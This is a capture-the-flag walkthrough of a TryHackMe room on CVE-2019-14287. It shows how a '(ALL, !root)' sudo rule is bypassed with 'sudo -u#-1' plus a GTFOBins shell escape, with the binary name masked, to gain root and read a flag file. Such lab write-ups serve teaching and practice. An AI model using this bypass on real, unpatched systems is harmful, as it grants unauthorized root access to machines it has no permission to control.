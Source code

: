 # Sudo Security Bypass

## Room
This a Try Hack Me room called `Sudo Security Bypass` 

The Web address for this room is
https://tryhackme.com/room/sudovulnsbypass

## Synopsis.
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series


---

## Getting started

Make sure you are connected to the Try Hack Me VPN before starting!

The first thing I do when starting a room is to note the victim and attacker's IP as given by Try Hack Me.

```
export MYIP=10.9.9.10
export IP=10.10.10.10
```

This format allows me to copy and paste in any terminal and use `$IP` anytime I need the victim's IP or `$MYIP` if I need my own

---

## Task 1 - Deploy!

This room is very beginner friendly. Enjoy the read, hit deploy, go.

---

## Task 2 - Security Bypass

I highly recommend reading through the explanations before getting started with the rest. You will find it very useful.

### #1 - What command are you allowed to run with sudo?

We are told to SSH to the machine with the following information (and we didn't even have to work for it!):
```
port: 2222
Username: tryhackme
Password: tryhackme
```

This gives us the following command:
```
ssh -p 2222 tryhackme@$IP
```

Once we are in, we can run sudo -l to see what we can execute as sudo.
```
$ sudo -l
User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /xxx/xxxx
```    

You will find only one command is available. Go back to the explanations above the questions. this format `(ALL, !root)` is the one susceptible to CVE-2019-14287. It means we can pretend to be root by acting as user with id -1 and effectively become root.

A great ressource to always try when you find commands you can execute with sudo-l is https://gtfobins.github.io/

Type in the name of the command you found with sudo -l and click on the result to see the page.

The result is quite self-explanatory: 

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.
  xxxx
```

This tells us we can escalate our privileges if we are able to run this command acting as root (with sudo).

Now let's piece it all together by following the hints from the description and adding this command :

```
sudo -u#-1 xxxx
```
Again replace xxxx with the command.

You should now be root

```
tryhackme@sudo-privesc:/$ sudo -u#-1 xxxx
root@sudo-privesc:/# 
```

And now, for the easy part, get the root.txt file in the root folder:

```
cd /root
ls
cat root.txt
```
